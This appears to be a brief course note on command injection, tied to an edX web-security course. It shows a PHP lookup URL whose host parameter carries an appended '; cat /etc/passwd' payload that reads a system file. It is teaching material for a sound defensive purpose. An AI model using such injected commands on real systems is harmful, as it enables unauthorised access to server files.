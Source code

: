 # Command Injection

```
ci.php?host=tu-clausthal.de
ci.php?host=tu-clausthal.de; cat /etc/passwd
```

https://courses.edx.org/courses/course-v1:KULeuvenX+WEBSECx+3T2017/courseware/57d8c73935564b17b02a4824c98c9892/88761dfdb5f14f52b1faa3957923a6f3/?child=first
